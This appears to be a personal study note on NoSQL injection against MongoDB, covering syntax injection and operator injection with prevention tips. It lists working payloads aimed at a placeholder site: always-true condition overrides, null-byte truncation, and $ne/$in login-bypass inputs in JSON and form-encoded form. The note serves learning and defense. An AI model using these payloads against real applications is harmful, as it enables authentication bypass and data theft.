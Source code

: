 # Syntax injection
This occurs when you can break the #nosql query syntax, enabling you to inject your own payload. The methodology is similar to that used in SQL injection. However the nature of the attack varies significantly, as NoSQL databases use a range of query languages, types of query syntax, and different data structures.
### Test
#### Determining which chars are processed
should break syntax and change response:
```
this.category == '''
```
should not affect
```
this.category == '\''
```
##### Confirming conditional behavior
Send two requests `' && 0 && 'x` and  `' && 1 && 'x` as follows: 

```
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+0+%26%26+'x
```

```
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+1+%26%26+'x
```
 If the application behaves differently, this suggests that the false condition impacts the query logic, but the true condition doesn't. This indicates that injecting this style of syntax impacts a server-side query.
##### Overriding existing conditions
`'||'1'=='1`

https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%27%31%27%3d%3d%27%31
results in mongodb query:
```
this.category == 'fizzy'||'1'=='1'
```

##### Null character
mongodb ignores all after it. like comment in sql injection.
```
https://insecure-website.com/product/lookup?category=fizzy'%00
```
query:
```
this.category == 'fizzy'\u0000' && this.released == 1
```

# Operator injection
Operator injection - This occurs when you can use NoSQL query operators to manipulate queries.
* $where
* $ne
* $in
* $regex
#### Examples
Query: `{"username":"wiener","password":"peter"}`
Injections: 
* `{"username":{"$ne":"invalid"},"password":"peter"}`
* `{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}` 
* `{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}`

## Preventing NoSQL injection
- Sanitize and validate user input, using an allowlist of accepted characters.
- Insert user input using parameterized queries instead of concatenating user input directly into the query.
- To prevent operator injection, apply an allowlist of accepted keys.

Example of `www-form-urlencoded` injection (PHP): #php
`user[$ne]=test&pass[$ne]=asdf&remember=`

![[Pasted image 20250120063827.png]]